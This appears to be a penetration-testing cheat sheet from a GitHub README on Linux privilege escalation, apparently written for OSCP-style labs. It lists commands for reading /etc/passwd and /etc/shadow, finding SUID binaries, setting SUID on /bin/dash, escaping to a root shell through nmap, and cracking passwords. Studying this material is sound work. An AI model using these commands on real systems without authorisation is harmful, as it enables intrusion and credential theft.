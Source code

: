 # ariel-shin Linux - Privilege Escalation 

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt/proof.txt

## Summary 
* [Process](#Process)
* [Compiling Exploits](Compiling-Exploits)
* [Cracking Passwords](#Cracking-Passwords)
* [Automated Scripts](#Automated-Scripts)
* [What to do when youre stuck](#What-to-do-when-youre-stuck)
* [Resources](#Resources)

## Process
* Reverse Shell
	* Check Different Ports, e.g. 80, 443
* Upgrade the shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
* Are we tty
```
tty
```
	* If not, (spawn a TTY shell)[https://github.com/Elinpf/OSCP-survival-guide#Shells]
* We have credentials
```
sudo su
```
* What's the OS? Version? 
```os
cat /etc/*-release
uname -i
lsb_release -a #Debian Based OS
uname -a
```
* Architecture
```
uname -a
uname -m //just get arch
```
	* 32 bit: i686 or i386
	* 64 bit: x86_64

* Who are we? Where are we?
```who
id 
pwd
```

* Bash History 
```
history
cat .bash_history
```
* Google anything that looks weird
* See if root is running anything that showed up in the history

* Who uses the box? What users?
```passwd
cat /etc/passwd
grep -vE "nologin | false" /etc/passwd
```

* Can we access /etc/shadow?
```
cat /etc/shadow
ls -al /etc/shadow
```

* What's currently running on the box? What active network services are there?
```ps
ps aux
netstat -antup
```

* Installed? Kernel?
```
dpkg -l #Debian based OS
rpm -qa #CentOS?openSUSE
uname -a # Kernel Exploits
```

* Sensitive Files
```config
find . -iname '*config'
```

* mysql
```mysql
mysql -uroot -ppassword -e 'show databases;' //no spaces for password
```

* See who's logged in 
```w
w
```

Display the list of all the users logged in and out since the file /var/log/wtmp was created
```last
last root 
```

* Find places to write files to
	* View File Permissions
	```
	ls -al
	```

	* If the above command doesn't work, view fstab
	```
	cat /etc/fstab
	//attempt to write to different locations in <mount point>
	echo "a" > test.txt
	```

* Check sticky bit
```
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```
	* Can also change SUID
	```
	chmod 4755 /bin/dash
	```

* Discover tools
```
find / -name wget
find / -name nc<em>
find / -name netcat</em>
find / -name tftp*
find / -name ftp
```

* Look at the original low privilege shell for notes 
* Look for interesting things e.g. nmap 
```
sudo nmap --interactive
nmap> !sh
id 
```
[Back](#summary)

## Compiling Exploits
* gcc
``` 
gcc exploit.c -o exploit
./exploit
```
* mingw32
``` 
TO DO
```
* If exploit fails, try copy and pasting it as a hidden file (e.g. .test.txt) Sometimes, it just fixes it.. 

[Back](#summary)

## Cracking Passwords
* Google it
* Search on hashkiller.co.uk
* John The Ripper
```
john textfile
```

[Back](#summary)

## Transferring files
wget
```
wget URL --no-check-certificate
```

## Automated Scripts
* [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
* [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
```
LinEnum.sh -t
```
	* t: thorough
* [Unix-Privesc-Check](https://github.com/pentestmonkey/unix-privesc-check)
* [Linux Exploit Suggester](https://tools.kali.org/exploitation-tools/linux-exploit-suggester)

[Back](#summary)

## Resources
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Back](#summary)

## What to do when you're stuck
* [Calm down](https://www.youtube.com/watch?v=F28MGLlpP90)
* Take a breath 
* Look for usernames that could have been found
	* Try to ssh by guessing credentials
* Google anything running by root
* Do we have the right type of shell? tty? sh? bash? 

[Back](#summary)